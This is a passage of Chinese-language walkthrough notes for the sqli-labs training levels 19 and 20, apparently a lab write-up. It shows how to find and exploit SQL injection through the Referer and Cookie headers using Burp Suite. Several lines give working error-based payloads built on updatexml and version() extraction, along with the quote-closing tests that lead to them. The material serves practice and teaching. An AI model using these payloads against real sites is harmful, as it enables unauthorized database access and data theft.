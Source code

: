 + 注入方式:

+ 注入Payload：
    ```bash
    ajest' and updatexml(1,concat('^',(select version()),'^'),1) and  '1'='1
    ```

## Less-19

+ referer 注入 

+ 正常输入，返回referer 值 ， 考虑 referer 注入 bp抓包 

+ 修改referer 值可正常页面显示 
+ referer" 显示正常
+ referer' 页面有回显 ，报错 ，说明referer 值被带入数据库，进行读写

+ 闭合方式：
    ```bash
    ajest'  and '1'='1
    ```

+ 注入Payload
    ```bash
    ajest' and updatexml(1,concat('^',(select version()),'^'),1) and '1'='1
    ```

## Less-20

+ 此关 正常输入，会一直显示 ILOVEYOU COOKIE ，此提示是让你添加 cookie 头部信息，同时需要删除 POST请求 

+ 用burpsuit 抓包 修改后，结果页面显示如下：

+ 页面会返回 YOUR USER AGENT/YOU IP ADDRESS/YOU COOKIE  
+ 用bp 修改  COOKIE 后面添加  双引号  ，页面显示正常。 添加 单引号 页面报错  ， 报错信息中可知  ：

+ 闭合方式： ‘ 单引号
+ 字符型注入

+ 用报错注入进行测试
    ```bash
    Cookie:uname=Dumb' #          #返回界面 显示 很和谐，正常 

    Cookie:uname=Dumb' --+        #返回界面 显示 很和谐，正常 

    Cookie:uname=Dumb' --      # 用杠杠空格 进行注释  ，页面报错 
    ```

+ 注入Payload：
    ```bash
    Cookie:uname=Dumb' and updatexml(1,concat('^',(select version()),'^'),1) # 

    Cookie:uname=Dumb' and updatexml(1,concat('^',(select version()),'^'),1) --+
    ```

+ 也可在浏览器控制台中进行 COOKIE 注入 
